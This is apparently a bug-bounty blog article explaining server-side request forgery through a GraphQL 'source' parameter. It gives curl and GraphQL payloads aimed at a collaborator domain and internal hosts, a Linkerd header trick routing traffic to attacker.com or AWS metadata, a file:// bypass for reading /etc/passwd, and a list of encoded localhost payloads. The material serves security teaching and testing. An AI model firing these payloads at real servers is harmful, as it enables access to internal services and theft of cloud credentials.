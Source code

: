 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
cover: ../../.gitbook/assets/Blue Pink Gradient Fashion Banner (2) (1).png
coverY: -14
---
```


# 🤯 Understanding SSRF Vulnerabilities and Their Impact

## &#x20;:heavy\_multiplication\_x: [<mark style="color:red;">Twitter</mark>](https://twitter.com/Cipher0ps\_tech?t=MlqumIay8I49eWwhjgrotg\&s=09) :link: [<mark style="color:red;">Linkedin</mark>](https://www.linkedin.com/company/cipherops/) :tv: [<mark style="color:red;">Telegram</mark>](https://t.me/cipherops\_tech) :tada: <mark style="color:red;">I</mark>[<mark style="color:red;">nstagram</mark>](https://instagram.com/cipherops\_tech?igshid=MzNlNGNkZWQ4Mg==)



Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

```markdown
# A tip onn ssrf from Twitter
#bugbountytip Found Linkerd service (look for headers such as “Via: linkerd” or “l5d-*”)? Try SSRF by overriding dtab via request header, e.g. “l5d-dtab: /svc/* => /$/inet/attacker.com/80” to reach your server or “l5d-dtab: /svc/* => /$/inet/169.254.169.254/80” for AWS metadata.

#Bugbountytip Got a SSRF? no metadata endpoints to hit? Try https://kubernetes.default.svc/metrics if you get a load crap come back jackpot you've hit the kubernetes API and this should indicate it's shit the bed time for any security team. (url can change)

SSRF are ❤️

file:///etc/passwd : Not authorized
file://\/\/etc/passwd : Work 😀

#BugBounty

SSRF payloads
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ 
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ http://192.168.0.1
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
HTTP
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
#kongsec

If you have a blind SSRF that can only read images (but for some reason can't read ICO files), try and find Confluence running on the internal network and request /images/icons/linkext7.gif to prove that you can access internal resources

```

{% embed url="https://x.com/chybeta/status/1176165964196376576?s=20" %}

<img src="https://2207729183-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LbWrDBBrbM1WtGeIKRO%2F-MTAEQ3wRjUmCfcVCv3d%2F-MTAErI78RbCVBhg8jGj%2Fimage.png?alt=media&#x26;token=f90e59f3-c38b-48ea-b8b3-e7f1484bff66" alt="" data-size="original">



In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
